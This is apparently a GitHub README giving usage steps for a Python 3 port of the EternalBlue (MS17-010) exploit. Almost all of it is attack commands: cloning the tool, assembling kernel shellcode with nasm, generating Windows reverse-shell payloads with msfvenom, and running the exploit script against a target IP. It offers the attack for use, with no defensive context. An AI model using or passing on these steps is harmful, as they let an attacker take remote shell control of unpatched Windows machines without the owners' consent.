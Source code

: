 # EternalBlue-in-Python3

## How to use

### Clone the repository

```git clone https://github.com/Gabriel-Lima232/EternalBlue-in-Python3.git```

### Compiling the shellcode(s)

### X64

```nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin```

### X86

```nasm -f bin MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin```


### Create a Bin

### X64

```msfvenom -p windows/x64/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x64 --format raw -o sc_x64_payload.bin```

### X86

```msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 --platform windows -a x86 --format raw -o sc_x86_payload.bin```


### Exploit

```python3 eternal-blue.py TARGET-IP final.bin```
